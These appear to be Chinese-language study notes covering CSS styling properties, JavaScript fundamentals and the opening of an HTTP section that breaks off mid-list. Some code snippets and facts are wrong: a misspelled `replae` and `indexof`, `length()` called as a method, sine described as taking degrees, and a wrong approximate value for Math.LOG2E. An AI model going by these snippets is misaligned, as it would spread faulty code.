`background-attachment` 属性指定背景图像是应该滚动还是固定的（不会随页面的其余部分一起滚动）

```
body {
  background-image: url("");
  background-repeat: no-repeat;
  background-position: right top;
  background-attachment: fixed;//指定应该固定背景图像
}
body {
  background-image: url("");
  background-repeat: no-repeat;
  background-position: right top;
  background-attachment: scroll;//指定背景图像应随页面的其余部分一起滚动
}
```


所有 CSS 背景属性

| 属性                  | 描述                                               |
| :-------------------- | :------------------------------------------------- |
| background            | 在一条声明中设置所有背景属性的简写属性。           |
| background-attachment | 设置背景图像是固定的还是与页面的其余部分一起滚动。 |
| background-clip       | 规定背景的绘制区域。                               |
| background-color      | 设置元素的背景色。                                 |
| background-image      | 设置元素的背景图像。                               |
| background-origin     | 规定在何处放置背景图像。                           |
| background-position   | 设置背景图像的开始位置。                           |
| background-repeat     | 设置背景图像是否及如何重复。                       |
| background-size       | 规定背景图像的尺寸。                               |

使用简写属性在一条声明中设置背景属性：

```
body {
  background: #ffffff url("tree.png") no-repeat right top;
}
```

在使用简写属性时，属性值的顺序为：

- background-color
- background-image
- background-repeat
- background-attachment
- background-position


#### 边框

`border` 属性允许您指定元素边框的样式、宽度和颜色


`border-style` 属性指定要显示的边框类型。

允许以下值：

- `dotted` - 定义点线边框
- `dashed` - 定义虚线边框
- `solid` - 定义实线边框
- `double` - 定义双边框
- `groove` - 定义 3D 坡口边框。效果取决于 border-color 值
- `ridge` - 定义 3D 脊线边框。效果取决于 border-color 值
- `inset` - 定义 3D inset 边框。效果取决于 border-color 值
- `outset` - 定义 3D outset 边框。效果取决于 border-color 值
- `none` - 定义无边框
- `hidden` - 定义隐藏边框

`border-style` 属性可以设置一到四个值（用于上边框、右边框、下边框和左边框）


**边框宽度**

`border-width` 属性指定四个边框的宽度。

可以将宽度设置为特定大小（以 px、pt、cm、em 计），也可以使用以下三个预定义值之一：thin、medium 或 thick。

`border-width` 属性可以设置一到四个值（用于上边框、右边框、下边框和左边框）

```
p {
  border-width: 5px 20px; /* 上边框和下边框为 5px，其他边为 20px */
}
```

**边框颜色**

`border-color` 属性用于设置四个边框的颜色。

可以通过以下方式设置颜色：

- name - 指定颜色名，比如 "red"
- HEX - 指定十六进制值，比如 "#ff0000"
- RGB - 指定 RGB 值，比如 "rgb(255,0,0)"
- HSL - 指定 HSL 值，比如 "hsl(0, 100%, 50%)"
- transparent

如果未设置 `border-color`，则它将继承元素的颜色。

`border-color` 属性可以设置一到四个值（用于上边框、右边框、下边框和左边框）。

```
p {
  border-color: red green blue yellow; /* 上红、右绿、下蓝、左黄 */
}
```


在 CSS 中，还有一些属性可用于指定每个边框（顶部、右侧、底部和左侧）：

```
p {
  border-top-style: dotted;
  border-right-style: solid;
  border-bottom-style: dotted;
  border-left-style: solid;
}
```


`border` 属性是以下各个边框属性的简写属性：

- `border-width`
- `border-style`（必需）
- `border-color`

```
p {
  border: 5px solid red;
}
```


`border-radius` 属性用于向元素添加圆角边框

```
p {
  border: 2px solid red;
  border-radius: 5px;
}
```


**外边距**

CSS `margin` 属性用于在任何定义的边框之外，为元素周围创建空间。

通过 CSS，您可以完全控制外边距。有一些属性可用于设置元素每侧（上、右、下和左）的外边距。

Margin - 单独的边

CSS 拥有用于为元素的每一侧指定外边距的属性：

- `margin-top`
- `margin-right`
- `margin-bottom`
- `margin-left`

所有外边距属性都可以设置以下值：

- auto - 浏览器来计算外边距
- *length* - 以 px、pt、cm 等单位指定外边距
- % - 指定以包含元素宽度的百分比计的外边距
- inherit - 指定应从父元素继承外边距

margin 简写属性设置四个值：

```
p {
  margin: 25px 50px 75px 100px;
}
```

将 margin 属性设置为 `auto`，以使元素在其容器中水平居中。


**内边距**

CSS `padding` 属性用于在任何定义的边界内的元素内容周围生成空间。

通过 CSS，您可以完全控制内边距（填充）。有一些属性可以为元素的每一侧（上、右、下和左侧）设置内边距。

Padding - 单独的边

CSS 拥有用于为元素的每一侧指定内边距的属性：

- `padding-top`
- `padding-right`
- `padding-bottom`
- `padding-left`

所有内边距属性都可以设置以下值：

- *length* - 以 px、pt、cm 等单位指定内边距
- % - 指定以包含元素宽度的百分比计的内边距
- inherit - 指定应从父元素继承内边距

不允许负值。


**所有 CSS 边框属性**

| 属性                | 描述                                                  |
| :------------------ | :---------------------------------------------------- |
| border              | 简写属性，在一条声明中设置所有边框属性。              |
| border-color        | 简写属性，设置四条边框的颜色。                        |
| border-radius       | 简写属性，可设置圆角的所有四个 border-*-radius 属性。 |
| border-style        | 简写属性，设置四条边框的样式。                        |
| border-width        | 简写属性，设置四条边框的宽度。                        |
| border-bottom       | 简写属性，在一条声明中设置所有下边框属性。            |
| border-bottom-color | 设置下边框的颜色。                                    |
| border-bottom-style | 设置下边框的样式。                                    |
| border-bottom-width | 设置下边框的宽度。                                    |
| border-left         | 简写属性，在一条声明中设置所有左边框属性。            |
| border-left-color   | 设置左边框的颜色。                                    |
| border-left-style   | 设置左边框的样式。                                    |
| border-left-width   | 设置左边框的宽度。                                    |
| border-right        | 简写属性，在一条声明中设置所有右边框属性。            |
| border-right-color  | 设置右边框的颜色。                                    |
| border-right-style  | 设置右边框的样式。                                    |
| border-right-width  | 设置右边框的宽度。                                    |
| border-top          | 简写属性，在一条声明中设置所有上边框属性。            |
| border-top-color    | 设置上边框的颜色。                                    |
| border-top-style    | 设置上边框的样式。                                    |
| border-top-width    | 设置上边框的宽度。                                    |


**高度和宽度**

`height` 和 `width` 属性用于设置元素的高度和宽度。

height 和 width 属性不包括内边距、边框或外边距。它设置的是元素内边距、边框以及外边距内的区域的高度或宽度。

CSS 高度和宽度值

`height` 和 `width` 属性可设置如下值：

- `auto` - 默认。浏览器计算高度和宽度。
- `length` - 以 px、cm 等定义高度/宽度。
- `%` - 以包含块的百分比定义高度/宽度。
- `initial` - 将高度/宽度设置为默认值。
- `inherit` - 从其父值继承高度/宽度。


#### 轮廓

轮廓是在元素周围绘制的一条线，在边框之外，以凸显元素。

CSS 拥有如下轮廓属性：

- `outline-style`
- `outline-color`
- `outline-width`
- `outline-offset`
- `outline`

**注意：**轮廓与边框不同！不同之处在于：轮廓是在元素边框之外绘制的，并且可能与其他内容重叠。同样，轮廓也不是元素尺寸的一部分；元素的总宽度和高度不受轮廓线宽度的影响。


outline-style 属性指定轮廓的样式，并可设置如下值：

- `dotted` - 定义点状的轮廓。
- `dashed` - 定义虚线的轮廓。
- `solid` - 定义实线的轮廓。
- `double` - 定义双线的轮廓。
- `groove` - 定义 3D 凹槽轮廓。
- `ridge` - 定义 3D 凸槽轮廓。
- `inset` - 定义 3D 凹边轮廓。
- `outset` - 定义 3D 凸边轮廓。
- `none` - 定义无轮廓。
- `hidden` - 定义隐藏的轮廓。


`outline-offset` 属性在元素的轮廓与边框之间添加空间。元素及其轮廓之间的空间是透明的。

#### 文本

**文本对齐**

`text-align` 属性用于设置文本的水平对齐方式。

文本可以左对齐或右对齐，或居中对齐。

下例展示了居中对齐以及左右对齐的文本（如果文本方向是从左到右，则默认为左对齐；如果文本方向是从右到左，则默认是右对齐）：

```
h1 {
  text-align: center;
}

h2 {
  text-align: left;
}

h3 {
  text-align: right;
}
```

当 `text-align` 属性设置为 "justify" 后，将拉伸每一行，以使每一行具有相等的宽度，并且左右边距是直的

`direction` 和 `unicode-bidi` 属性可用于更改元素的文本方向

`vertical-align` 属性设置元素的垂直对齐方式。


**文字装饰**

`text-decoration` 属性用于设置或删除文本装饰。

`text-decoration: none;` 通常用于从链接上删除下划线

```
h1 {
  text-decoration: overline;
}

h2 {
  text-decoration: line-through;
}

h3 {
  text-decoration: underline;
}
```

**文字间距**

文字缩进

`text-indent` 属性用于指定文本第一行的缩进

`letter-spacing` 属性用于指定文本中字符之间的间距。

`line-height` 属性用于指定行之间的间距。

`word-spacing` 属性用于指定文本中单词之间的间距。

`white-space` 属性指定元素内部空白的处理方式。

```
p {
  text-indent: 50px;
}
```


#### 字体


**font-family 属性**

在 CSS 中，我们使用 font-family 属性规定文本的字体。

font-family 属性应包含多个字体名称作为“后备”系统，以确保浏览器/操作系统之间的最大兼容性。请以您需要的字体开始，并以通用系列结束（如果没有其他可用字体，则让浏览器选择通用系列中的相似字体）。字体名称应以逗号分隔。

```
.p1 {
  font-family: "Times New Roman", Times, serif;
}

.p2 {
  font-family: Arial, Helvetica, sans-serif;
}

.p3 {
  font-family: "Lucida Console", "Courier New", monospace;
}
```


`font-style` 属性主要用于指定斜体文本。

此属性可设置三个值：

- normal - 文字正常显示
- italic - 文本以斜体显示
- oblique - 文本为“倾斜”（倾斜与斜体非常相似，但支持较少）

**字体粗细**

`font-weight` 属性指定字体的粗细：


**字体大小**

`font-size` 属性设置文本的大小。

在网页设计中，能够管理文本大小很重要。但是，不应使用调整字体大小来使段落看起来像标题，或是使标题看起来像段落。

请始终使用正确的 HTML 标签，例如 <h1> - <h6> 用于标题，而 <p> 仅用于段落。

font-size 值可以是绝对或相对大小。

绝对尺寸：

- 将文本设置为指定大小
- 不允许用户在所有浏览器中更改文本大小（可访问性不佳）
- 当输出的物理尺寸已知时，绝对尺寸很有用

相对尺寸：

- 设置相对于周围元素的大小
- 允许用户在浏览器中更改文本大小

**注释：**如果您没有指定字体大小，则普通文本（如段落）的默认大小为 16px（16px = 1em）


#### display 属性

每个元素都有一个默认 display 值。但是，您可以覆盖它。将行内元素更改为块元素,反之亦然.

```
li {
  display: inline;
}
span {
  display: block;
}
```


`display: none;` 通常与 JavaScript 一起使用，以隐藏和显示元素，而无需删除和重新创建它们。

```
<style>
h1.hidden {
  visibility: hidden;
}
</style>
```

`visibility:hidden;` 也可以隐藏元素。但是，该元素仍将占用与之前相同的空间。元素将被隐藏，但仍会影响布局


#### position 属性

`position` 属性规定应用于元素的定位方法的类型。

有五个不同的位置值：

- static
- relative
- fixed
- absolute
- sticky


`position: static`HTML 元素默认情况下的定位方式为 static（静态）。

静态定位的元素不受 top、bottom、left 和 right 属性的影响。

position: static; 的元素不会以任何特殊方式定位；它始终根据页面的正常流进行定位


`position: relative;` 的元素相对于其正常位置进行定位。

设置相对定位的元素的 top、right、bottom 和 left 属性将导致其偏离其正常位置进行调整。不会对其余内容进行调整来适应元素留下的任何空间。


`position: fixed;` 的元素是相对于视口定位的，这意味着即使滚动页面，它也始终位于同一位置。 top、right、bottom 和 left 属性用于定位此元素。

固定定位的元素不会在页面中通常应放置的位置上留出空隙。


`position: sticky;` 的元素根据用户的滚动位置进行定位。

粘性元素根据滚动位置在相对（`relative`）和固定（`fixed`）之间切换。起先它会被相对定位，直到在视口中遇到给定的偏移位置为止 - 然后将其“粘贴”在适当的位置。


`position: absolute;` 的元素相对于最近的定位祖先元素进行定位


#### overflow 属性

`overflow` 属性指定在元素的内容太大而无法放入指定区域时是剪裁内容还是添加滚动条。

`overflow` 属性可设置以下值：

- `visible` - 默认。溢出没有被剪裁。内容在元素框外渲染
- `hidden` - 溢出被剪裁，其余内容将不可见
- `scroll` - 溢出被剪裁，同时添加滚动条以查看其余内容
- `auto` - 与 `scroll` 类似，但仅在必要时添加滚动条

**注释：**`overflow` 属性仅适用于具有指定高度的块元素。


`overflow-x` 和 `overflow-y` 属性规定是仅水平还是垂直地（或同时）更改内容的溢出：

- `overflow-x` 指定如何处理内容的左/右边缘。
- `overflow-y` 指定如何处理内容的上/下边缘。


`float` 属性用于定位和格式化内容，例如让图像向左浮动到容器中的文本那里。

`float` 属性可以设置以下值之一：

- left - 元素浮动到其容器的左侧
- right - 元素浮动在其容器的右侧
- none - 元素不会浮动（将显示在文本中刚出现的位置）。默认值。
- inherit - 元素继承其父级的 float 值

最简单的用法是，`float` 属性可实现（报纸上）文字包围图片的效果。


如果仅需在元素内居中文本，请使用 `text-align: center;`


#### 伪类

伪类用于定义元素的特殊状态。

例如，它可以用于：

- 设置鼠标悬停在元素上时的样式
- 为已访问和未访问链接设置不同的样式
- 设置元素获得焦点时的样式


```
selector:pseudo-class {
  property: value;
}
```


```
<style>
/* unvisited link */
a:link {
  color: red;
}

/* visited link */
a:visited {
  color: green;
}

/* mouse over link */
a:hover {
  color: hotpink;
}

/* selected link */
a:active {
  color: blue;
}
</style>
```

#### 伪元素

CSS 伪元素用于设置元素指定部分的样式。

例如，它可用于：

- 设置元素的首字母、首行的样式
- 在元素的内容之前或之后插入内容


```
selector::pseudo-element {
  property: value;
}
```


# JavaScript

#### 概述

HTML <script> 标签

HTML `<script>` 标签用于定义客户端脚本（JavaScript）。

`<script>`元素即可包含脚本语句，也可通过 src 属性指向外部脚本文件。

JavaScript 的常见用途是图像处理、表单验证和内容的动态更改。

如需选取 HTML 元素，JavaScript 最常用 `document.getElementById()` 方法。

这个 JavaScript 示例向 id="demo" 的 HTML 元素内写入 "Hello JavaScript!"

```
<script>
document.getElementById("demo").innerHTML = "Hello JavaScript!";
</script>
```

 


<script> 标签

在 HTML 中，JavaScript 代码必须位于 `<script>` 与 `</script>` 标签之间。


getElementById() 是多个 JavaScript HTML 方法之一。

本例使用该方法来“查找” id="demo" 的 HTML 元素，并把元素内容（innerHTML）更改为 "Hello JavaScript"：


如需使用外部脚本，请在 `<script>` 标签的 `src` (source) 属性中设置脚本的名称

```
<script src="myScript.js"></script>
```


**JavaScript 不提供任何内建的打印或显示函数。**

JavaScript 显示方案:

JavaScript 能够以不同方式“显示”数据：

- 使用 `window.alert()` 写入警告框 `window.alert(5)`
- 使用 `document.write()` 写入 HTML 输出 `document.write(5)`
- 使用 `innerHTML` 写入 HTML 元素 `document.getElementById("demo").innerHTML =5` 
- 使用 `console.log()` 写入浏览器控制台 `console.log(5)`


分号分隔 JavaScript 语句。请在每条可执行的语句之后添加分号。

JavaScript 语句可以用花括号（`{`...`}`）组合在代码块中。代码块的作用是定义一同执行的语句。

运算符与C语言相同

允许字符串用+

注释与C语言相同

允许跨行代码


| 关键词        | 描述                                              |
| :------------ | :------------------------------------------------ |
| break         | 终止 switch 或循环。                              |
| continue      | 跳出循环并在顶端开始。                            |
| debugger      | 停止执行 JavaScript，并调用调试函数（如果可用）。 |
| do ... while  | 执行语句块，并在条件为真时重复代码块。            |
| for           | 标记需被执行的语句块，只要条件为真。              |
| function      | 声明函数。                                        |
| if ... else   | 标记需被执行的语句块，根据某个条件。              |
| return        | 退出函数。                                        |
| switch        | 标记需被执行的语句块，根据不同的情况。            |
| try ... catch | 对语句块实现错误处理。                            |
| var           | 声明变量。                                        |


```
var x = 3 + 5 + "8"//结果为88

var x="8" + 3 + 5//结果为835
```


#### 作用域  let const

JavaScript 块作用域

通过 `var` 关键词声明的变量没有块*作用域*。

在块 {} 内声明的变量可以从块之外进行访问。

```
{ 
  var x = 10; 
}
// 此处可以使用 x
```

使用 `let` 关键词声明拥有块作用域的变量。

在块 *{}* 内声明的变量无法从块外访问：

```
{ 
  let x = 10;
}
// 此处不可以使用 x
```


在函数内声明变量时，使用 `var` 和 `let` 很相似

如果在块外声明声明，那么 `var` 和 `let` 也很相似。

使用 JavaScript 的情况下，全局作用域是 JavaScript 环境。

在 HTML 中，全局作用域是 window 对象。

通过 `var` 关键词定义的全局变量属于 window 对象（可使用 window.变量）

通过 `let` 关键词定义的全局变量不属于 window 对象


**重新声明**

允许在程序的任何位置使用 `var` 重新声明 `var` 变量；在相同的作用域，或在相同的块中，通过 `var` 重新声明一个 `let` 变量是不允许的。

在相同的作用域，或在相同的块中，通过 `let` 重新声明一个 `var` 变量、 `let` 变量是不允许的。

在不同的作用域或块中，通过 `let` 重新声明变量是允许的。

**const**

JavaScript `const` 变量必须在声明时赋值，它没有定义常量值。它定义了对值的常量引用。因此，我们不能更改常量原始值，但我们可以更改常量对象的属性。


#### JavaScript 数据类型

JavaScript 变量能够保存多种*数据类型*：数值、字符串值、数组、对象等等：

```
var length = 7;                             // 数字
var lastName = "Gates";                      // 字符串
var cars = ["Porsche", "Volvo", "BMW"];         // 数组
var x = {firstName:"Bill", lastName:"Gates"};    // 对象
```


typeof 运算符

您可使用 JavaScript 的 `typeof` 来确定 JavaScript 变量的类型

```
typeof 0  //
```


在 JavaScript 中，没有值的变量，其值是 `undefined`。typeof 也返回 `undefined`。

任何变量均可通过设置值为 `undefined` 进行清空。其类型也将是 `undefined`。


在 JavaScript 中，`null` 是 "nothing"。它被看做不存在的事物。在 JavaScript 中，`null` 的数据类型是对象。


JavaScript 变量是数据值的容器。对象也是变量。但是对象包含很多值。

对象属性

（JavaScript 对象中的）名称:值对被称为属性。

```
var objectName = {propertyName1:"", propertyName2:""···};
```


对象也可以有*方法*。方法是在对象上执行的动作。方法以*函数定义*被存储在属性中。

您能够以两种方式访问属性：

```
objectName.propertyName
```

或者

```
objectName["propertyName"]
```


访问对象方法

您能够通过如下语法访问对象方法：

```
objectName.methodName()
```


#### HTML 事件

**HTML 事件是发生在 HTML 元素上的“事情”。**

**当在 HTML 页面中使用 JavaScript 时，JavaScript 能够“应对”这些事件。**

HTML 事件

HTML 事件可以是浏览器或用户做的某些事情。

下面是 HTML 事件的一些例子：

- HTML 网页完成加载
- HTML 输入字段被修改
- HTML 按钮被点击

通常，当事件发生时，用户会希望做某件事。

JavaScript 允许您在事件被侦测到时执行代码。

通过 JavaScript 代码，HTML 允许您向 HTML 元素添加事件处理程序。

```
<element event='一些 JavaScript'>
```


常见的 HTML 事件

下面是一些常见的 HTML 事件：

| 事件        | 描述                         |
| :---------- | :--------------------------- |
| onchange    | HTML 元素已被改变            |
| onclick     | 用户点击了 HTML 元素         |
| onmouseover | 用户把鼠标移动到 HTML 元素上 |
| onmouseout  | 用户把鼠标移开 HTML 元素     |
| onkeydown   | 用户按下键盘按键             |
| onload      | 浏览器已经完成页面加载       |


#### 字符串

**字符串长度**

`length` 属性返回字符串的长度：

```
str.length()
```

**查找字符串中的字符串**

`indexOf()` 方法返回字符串中指定文本*首次*出现的索引（位置）

`lastIndexOf()` 方法返回指定文本在字符串中*最后*一次出现的索引

如果未找到文本， `indexOf()` 和 `lastIndexOf()` 均返回 -1。

```
str.indexof("s",2)
```

`search()` 方法搜索特定值的字符串，并返回匹配的位置

```
str.search("s")
```

**提取部分字符串**

有三种提取部分字符串的方法：

- slice(*start*, *end*)
- substring(*start*, *end*)
- substr(*start*, *length*)

`slice()` 提取字符串的某个部分并在新字符串中返回被提取的部分。

该方法设置两个参数：起始索引（开始位置），终止索引（结束位置）。

```
str.slice(7,13)
```

**替换字符串内容**

`replace()` 方法用另一个值替换在字符串中指定的值

```
str.replae("","")
```

`concat()` 连接两个或多个字符串

```
text3 = text1.concat(" ",text2)
```


**把字符串转换为数组**

可以通过 `split()` 将字符串转换为数组：

```
var txt = "a,b,c,d,e";   // 字符串
txt.split(",");          // 用逗号分隔
txt.split(" ");          // 用空格分隔
txt.split("|");          // 用竖线分隔
```


**字符串模板**

模板字面量使用反引号 (``) 而不是引号 ("") 来定义字符串，通过使用*模板字面量*，您可以在字符串中同时使用单引号和双引号。

*模板字面量*提供了一种将变量和表达式插入字符串的简单方法。

该方法称为字符串插值（string interpolation）。

```
${...}
let firstName = "str1";
let lastName = "str2";

let text = `Welcome ${firstName}, ${lastName}
```


#### 数字

**NaN - 非数值**

`NaN` 属于 JavaScript 保留词，指示某个数不是合法数。

尝试用一个非数字字符串进行除法会得到 NaN（Not a Number）


使用 `toString()` 方法把数输出为十六进制、八进制或二进制。

```
var myNumber = 128;
myNumber.toString(16);     // 返回 80
myNumber.toString(8);      // 返回 200
myNumber.toString(2);      // 返回 1000000
```


可以通过关键词 `new` 定义为对象：var y = new Number(123)


toString() 方法

`toString()` 以字符串返回数值


这三种 JavaScript 方法可用于将变量转换为数字：

- Number() 方法
- parseInt() 方法
- parseFloat() 方法

这些方法并非*数字*方法，而是*全局* JavaScript 方法

| 方法         | 描述                         |
| :----------- | :--------------------------- |
| Number()     | 返回数字，由其参数转换而来。 |
| parseFloat() | 解析其参数并返回浮点数。     |
| parseInt()   | 解析其参数并返回整数。       |


#### 数组

**JavaScript 数组用于在单一变量中存储多个值。**


```
var array-name = [item1, item2, ...];
```

数组是一种特殊类型的对象。在 JavaScript 中对数组使用 `typeof` 运算符会返回 "object"。但是，JavaScript 数组最好以数组来描述。


length 属性

`length` 属性返回数组的长度（数组元素的数目）


向数组添加新元素的最佳方法是使用 `push()` 方法

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.push("Lemon");                // 向 fruits 添加一个新元素 (Lemon)
```

也可以使用 `length` 属性向数组添加新元素：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits[fruits.length] = "Lemon";     // 向 fruits 添加一个新元素 (Lemon)
```


`pop()` 方法从数组中删除最后一个元素：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.pop();              // 从 fruits 删除最后一个元素（"Mango"）
```


**位移元素**

位移与弹出等同，但处理首个元素而不是最后一个。

`shift()` 方法会删除首个数组元素，并把所有其他元素“位移”到更低的索引。

`shift()` 方法返回被“位移出”的字符串

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.shift();            // 从 fruits 删除第一个元素 "Banana"
```

`unshift()` 方法（在开头）向数组添加新元素，并“反向位移”旧元素：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.unshift("Lemon");    // 向 fruits 添加新元素 "Lemon"
```

`unshift()` 方法返回新数组的长度。


**删除元素**

既然 JavaScript 数组属于对象，其中的元素就可以使用 JavaScript `delete` 运算符来*删除*：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
delete fruits[0];           // 把 fruits 中的首个元素改为 undefined
```

**拼接数组**

`splice()` 方法可用于向数组添加新项：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.splice(2, 0, "Lemon", "Kiwi");
```

第一个参数（2）定义了应添加新元素的位置（拼接）。

第二个参数（0）定义应删除多少元素。

其余参数（“Lemon”，“Kiwi”）定义要添加的新元素。

`splice()` 方法返回一个包含已删除项的数组：

```
var fruits = ["Banana", "Orange", "Apple", "Mango"];
fruits.splice(2, 2, "Lemon", "Kiwi");
```

**合并（连接）数组**

`concat()` 方法通过合并（连接）现有数组来创建一个新数组

```
var myGirls = ["Cecilie", "Lone"];
var myBoys = ["Emil", "Tobias", "Linus"];
var myChildren = myGirls.concat(myBoys); 
```


**数组排序**

`sort()` 方法以字母顺序对数组进行排序


**反转数组**

`reverse()` 方法反转数组中的元素。

您可以使用它以降序对数组进行排序：

**数组迭代**

`Array.forEach()`

`forEach()` 方法为每个数组元素调用一次函数（回调函数）。


`Array.map()`

`map()` 方法通过对每个数组元素执行函数来创建新数组。

`map()` 方法不会对没有值的数组元素执行函数。

`map()` 方法不会更改原始数组。


`Array.filter()`

`filter()` 方法创建一个包含通过测试的数组元素的新数组。

这个例子用值大于 18 的元素创建一个新数组：

```
var numbers = [45, 4, 9, 16, 25];
var over18 = numbers.filter(myFunction);

function myFunction(value, index, array) {
  return value > 18;
}
```

- 项目值
- 项目索引
- 数组本身


**数组和对象的区别**

在 JavaScript 中，*数组*使用*数字索引*。

在 JavaScript 中，*对象*使用*命名索引*。

数组是特殊类型的对象，具有数字索引。

**何时使用数组，何时使用对象？**

- JavaScript 不支持关联数组
- 如果希望元素名为*字符串（文本）*则应该使用*对象*。
- 如果希望元素名为*数字*则应该使用*数组*。


数组不是常量，用 `const` 声明的数组不能重新赋值。

关键字 `const` 有一定误导性。它不定义常量数组。它定义的是对数组的常量引用。因此，我们仍然可以更改常量数组的元素。


#### 日期

Date 对象由新的 `Date()` 构造函数创建。

有 4 种方法创建新的日期对象：

- new Date()
- new Date(year, month, day, hours, minutes, seconds, milliseconds)
- new Date(milliseconds)
- new Date(date string)


日期获取方法

获取方法用于获取日期的某个部分（来自日期对象的信息）。下面是最常用的方法（以字母顺序排序）：

| 方法              | 描述                                 |
| :---------------- | :----------------------------------- |
| getDate()         | 以数值返回天（1-31）                 |
| getDay()          | 以数值获取周名（0-6）                |
| getFullYear()     | 获取四位的年（yyyy）                 |
| getHours()        | 获取小时（0-23）                     |
| getMilliseconds() | 获取毫秒（0-999）                    |
| getMinutes()      | 获取分（0-59）                       |
| getMonth()        | 获取月（0-11）                       |
| getSeconds()      | 获取秒（0-59）                       |
| getTime()         | 获取时间（从 1970 年 1 月 1 日至今） |


日期设置方法

设置方法用于设置日期的某个部分。下面是最常用的方法（按照字母顺序排序）：

| 方法              | 描述                                         |
| :---------------- | :------------------------------------------- |
| setDate()         | 以数值（1-31）设置日                         |
| setFullYear()     | 设置年（可选月和日）                         |
| setHours()        | 设置小时（0-23）                             |
| setMilliseconds() | 设置毫秒（0-999）                            |
| setMinutes()      | 设置分（0-59）                               |
| setMonth()        | 设置月（0-11）                               |
| setSeconds()      | 设置秒（0-59）                               |
| setTime()         | 设置时间（从 1970 年 1 月 1 日至今的毫秒数） |


Math 对象方法

| 方法             | 描述                                                     |
| :--------------- | :------------------------------------------------------- |
| abs(x)           | 返回 x 的绝对值                                          |
| acos(x)          | 返回 x 的反余弦值，以弧度计                              |
| asin(x)          | 返回 x 的反正弦值，以弧度计                              |
| atan(x)          | 以介于 -PI/2 与 PI/2 弧度之间的数值来返回 x 的反正切值。 |
| atan2(y,x)       | 返回从 x 轴到点 (x,y) 的角度                             |
| ceil(x)          | 对 x 进行上舍入                                          |
| cos(x)           | 返回 x 的余弦                                            |
| exp(x)           | 返回 Ex 的值                                             |
| floor(x)         | 对 x 进行下舍入                                          |
| log(x)           | 返回 x 的自然对数（底为e）                               |
| max(x,y,z,...,n) | 返回最高值                                               |
| min(x,y,z,...,n) | 返回最低值                                               |
| pow(x,y)         | 返回 x 的 y 次幂                                         |
| random()         | 返回 0 ~ 1 之间的随机数                                  |
| round(x)         | 把 x 四舍五入为最接近的整数                              |
| sin(x)           | 返回 x（x 以角度计）的正弦                               |
| sqrt(x)          | 返回 x 的平方根                                          |
| tan(x)           | 返回角的正切                                             |


```
Math.E          // 返回欧拉指数（Euler's number）
Math.PI         // 返回圆周率（PI）
Math.SQRT2      // 返回 2 的平方根
Math.SQRT1_2    // 返回 1/2 的平方根
Math.LN2        // 返回 2 的自然对数
Math.LN10       // 返回 10 的自然对数
Math.LOG2E      // 返回以 2 为底的 e 的对数（约等于 1.414）
Math.LOG10E     // 返回以 10 为底的 e 的对数（约等于 0.434）
```


#### 类

```javascript
class Car {
  constructor(name, year) {
    this.name = name;
    this.year = year;
  }
  age(x) {
    return x - this.year;
  }
}
let myCar = new Car("Ford", 2014);
```


# 网络


## HTTP

HTTP 是超文本传输协议，也就是**H**yperText **T**ransfer **P**rotocol




#### 资源

HTTP 请求的内容通称为"资源"。”资源“这一概念非常宽泛，它可以是一份文档，一张图片，或所有其他你能够想到的格式。每个资源都由一个 URI 来进行标识。

一般情况下，资源的名称和位置由同一个 URL（统一资源定位符，它是 URI 的一种）来标识。也有某些特殊情况，资源的名称和位置由不同的 URI 进行标识：例如，待请求的资源希望客户端从另外一个位置访问它。

**URI可以分为URL,URN或同时具备locators 和names特性的一个东西。URN作用就好像一个人的名字，URL就像一个人的地址。换句话说：URN确定了东西的身份，URL提供了找到它的方式。**


**URLs 与 URNs**
**URLs**
URI 的最常见形式是统一资源定位符 (URL)，它也被称为 Web 地址。

```
https://developer.mozilla.org
https://developer.mozilla.org/en-US/docs/Learn/
https://developer.mozilla.org/en-US/search?q=URL
```

Copy to Clipboard
在浏览器的地址栏中输入上述任一地址，浏览器就会加载相应的网页（资源）。

URL 由多个必须或可选的组件构成。下面给出了一个复杂的 URL：

```
http://www.example.com:80/path/to/myfile.html?key1=value1&key2=value2#SomewhereInTheDocument
```

**URNs**
URN 是另一种形式的 URI，它通过特定命名空间中的唯一名称来标识资源。

```
urn:isbn:9780141036144
urn:ietf:rfc:7230
```


`http://`告诉浏览器使用何种协议。对于大部分 Web 资源，通常使用 HTTP 协议或其安全版本，HTTPS 协议。另外，浏览器也知道如何处理其他协议。例如， `mailto:` 协议指示浏览器打开邮件客户端；`ftp:`协议指示浏览器处理文件传输。常见的方案有：

| 方案        | 描述                                   |
| :---------- | :------------------------------------- |
| data        | Data URIs                              |
| file        | 指定主机上文件的名称                   |
| ftp         | 文件传输协议                           |
| http/https  | 超文本传输  协议／安全的超文本传输协议 |
| mailto      | 电子邮件地址                           |
| ssh         | 安全 shell                             |
| tel         | 电话                                   |
| urn         | 统一资源名称                           |
| view-source | 资源的源代码                           |
| ws/wss      | （加密的）WebSocket  连接              |

#### HTTP 消息

HTTP 消息是服务器和客户端之间交换数据的方式。有两种类型的消息︰ 请求（requests）-- 由客户端发送用来触发一个服务器上的动作；响应（responses）-- 来自服务器的应答。

HTTP 请求和响应具有相似的结构，由以下部分组成︰

1. 一行起始行用于描述要执行的请求，或者是对应的状态，成功或失败。这个起始行总是单行的。
2. 一个可选的 HTTP 头集合指明请求或描述消息正文。
3. 一个空行指示所有关于请求的元数据已经发送完毕。
4. 一个可选的包含请求相关数据的正文 (比如 HTML 表单内容), 或者响应相关的文档。 正文的大小有起始行的 HTTP 头来指定。

起始行和 HTTP 消息中的 HTTP 头统称为请求头，而其有效负载被称为消息正文。


#####  **请求**

HTTP 请求的一个例子：


HTTP 请求
**起始行**
HTTP 请求是由客户端发出的消息，用来使服务器执行动作。起始行 (start-line) 包含三个元素：

1. 一个 HTTP 方法(Method)，一个动词 (像 `GET`, `PUT` 或者 `POST`) 或者一个名词 (像 [`HEAD`或者 `OPTIONS`), 描述要执行的动作。例如，`GET` 表示要获取资源，`POST` 表示向服务器推送数据 (创建或修改资源，或者产生要返回的临时文件)。

2. 请求目标 (request target)，通常是一个URL，或者是协议、端口和域名的绝对路径，通常以请求的环境为特征。请求的格式因不同的 HTTP 方法而异。它可以是：

